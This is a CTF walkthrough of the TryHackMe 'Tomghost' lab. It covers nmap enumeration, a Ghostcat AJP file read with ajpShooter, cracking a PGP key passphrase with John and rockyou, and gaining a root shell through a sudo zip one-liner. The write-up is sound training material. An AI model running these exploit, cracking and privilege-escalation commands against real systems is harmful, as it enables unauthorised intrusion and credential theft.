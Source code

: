 # Try Hack Me - Tomghost

Identify recent vulnerabilities to try exploit the system or read files that you should not have access to. This is a TryHackMe box. To access this you must sign up to https://tryhackme.com/.

## Disclaimer -  Your IP address will be different!
---

## Scanning and Enumeration

We will start with running our nmap scan.  
Command: `nmap -A -T4 -sC -sV -oN nmap/initial.txt 10.10.93.77`

Command Breakdown:

    -A: do an extensive scan on these ports

	-T4: speed of nmap scan is 4/5 (personal preference of mine)

    -sC: Scan with default NSE scripts. Considered useful for discovery and safe

	-sV: Attempts to determine the version of the service running on port

	-oN: Normal output to the file normal.file

Once the results came back there was only one thing that appeared out of place to me and that was port 8009.  

By default, Apache Tomcat listens on 3 ports, 8005, 8009 and 8080. A common misconfiguration is blocking port 8080 but leaving ports 8005 or 8009 open for public access.  

![nmapResulst](images/nmapresults.png "NMAP")  

We will bu using the following tool to exploit this vulnerability.  
[00theway/Ghostcat-CNVD-2020-10487](https://github.com/00theway/Ghostcat-CNVD-2020-10487)  

Command: `python3 ajpShooter.py http://10.10.93.77:8080 8009 /WEB-INF/web.xml read`

![nmapRajpShooteresulst](images/ajpShooter.png "ajpShooter") 

It would seems that we where able to find what seems to be both a user name and a password.  

Let's look back at our nmap scan. Remeber that port 22 was open. We might be able to use these credentials to log into our box.  

Command: `ssh <username>@10.10.93.77`
Enter in the password when you are prompted to and BLAM! we are connected under that user account.  

![sfUser](images/sfUser.png "sfUser")  
When we use the `ls` command we see that there are two files. Both of these files could be encryptions keys, but for right now we are going to look into the `/home` directory to see if we can find anything useful.  

![merlin](images/merlin.png "merlin")  
Let's keep digging and see if we an find anything else. If we `ls /home/merlin` you will see that it is here we find our first flag `user.txt`.  

![userFlag](images/userFlag.png "userFlag")  

Now we are going to return to pgp and asc file that we found in the `skyfuck` directory.  
We are going to all of these files to our host machine. In order to do this we will need to use the `scp` command.  

When using the `scp` command you will want to run it on your host maching and not from the Tomghost VM.   
Command: `scp skyfuck@10.10.31.90:/home/skyfuck/* .`
## Cracking the Hash
---
After running the `scp` command we now have both the credential.pgp and tryhackme.asc on our host maching.  
The next thing we want to do is use John The Ripper to get the hash from the `tryhackme.asc`.  
Here is a good [video](https://www.youtube.com/watch?v=DBpd9e4tJfg) for recovering your PGP key with John.  
Command: `gpg2john tryhackme.asc > hash`  
Once complete you can see that we now have our password. Lets make sure that we take note of that.  
 
It is now time for to crack open the hash that we collected eariler. This can be down by using John and combining it with the rockyou.txt wordlist.  

FYI in order to find the location of your rockyou.txt word list just use `locate rockyou.txt`. Mind is located in the `/usr/share/wordlists/` directory.  

Command: `john --wordlist=/usr/share/wordlists/rockyou.txt hash`
![passwd](images/passwd.png "passwd") 

It seems that John was able to find out passphrase. Now we are going to use that phrase to import adn decrypt our PGP key that we have.
```
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
```

![merlinPasswd](images/merlinPasswd.png "merlinPasswd")  
Things are starting to work in our favor.
We now have the password to the Merlin account.  
So we need to go back to our SSH shell and change from the skyfuck user to merlin, that can be done by using the `SU` command.  

Command: `su merlin`  
Once you are logged in as Merlin lets see if we have the abiliy to run anything as sudo.  
`sudo -l`  
It seems that the only thing we can use sudo on is `/usr/bin/zip`  
Afer a little bit of reasearch I found this [GitBook](https://d00mfist1.gitbooks.io/ctf/privilege_escalation_-_linux.html) on privilege escalation. Under the zip portion there was this oneliner that would allow us to gain access to a root shell.
`sudo zip -q /tmp/test.zip cc0.txt -T -TT '/bin/sh #'`

![shell](images/shell.png "shell")  
Once we have the shell we can us the `id` command to see that we are now running as a root user.  

Now it is time to find the root.txt file.
```
ls /root
cat /root/root.txt
```
![rootFlag](images/rootFlag.png "rootFlag") 

# Congratulations you have just completed the Tomghost challange!